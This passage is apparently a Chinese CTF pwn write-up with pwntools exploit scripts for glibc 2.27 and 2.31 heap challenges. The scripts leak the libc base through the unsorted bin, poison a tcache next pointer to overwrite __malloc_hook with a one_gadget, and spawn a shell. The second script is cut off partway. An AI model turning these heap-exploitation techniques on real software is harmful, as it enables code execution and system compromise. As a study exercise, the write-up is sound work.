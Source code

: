 ```python

# gadget
one_gadget_l = [0x4f29e,0x4f2a5,0x4f302,0x10a2fc]

# leak libc_base
create(0,0x1000)
create(1,0x10)
delete(0)
show(0)

p.recvuntil(b'content : ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 4111520 
log.success("libc_base: " + hex(libc_base))

malloc_hook = libc_base + libc.sym['__malloc_hook']
one_gadget = libc_base + one_gadget_l[3]

create(2,0x68)
delete(2)
edit(2,p64(malloc_hook))

create(3,0x68)
create(4,0x68)

edit(4,p64(one_gadget))
create(5,0x10)

p.interactive()
```

## heap-2.31

### 思路

glibc2.31，tcache加了个count检测，只要多释放一个堆块就好

1. 利用unsorted bin 泄露libc基址
2. 修改释放到tcache的堆块的next指针，使堆分配到`__malloc_hook`附近，覆盖 `__malloc_hook`为one_gadget
3. 执行malloc获取shell

### exp

```python
from pwn import *

context.terminal =['tmux','splitw','-h']
context.log_level = 'debug'

p = process("./heap")
#p = remote("node2.anna.nssctf.cn",28596)

elf = ELF("./heap")
libc = ELF("./libc.so.6")

def create(index,size):
	p.sendlineafter(b">>",b'1')
	p.sendlineafter(b'idx? ',str(index).encode())
	p.sendlineafter(b'size? ',str(size).encode())

def delete(index):
	p.sendlineafter(b">>",b'2')
	p.sendlineafter(b'idx? ',str(index).encode())
```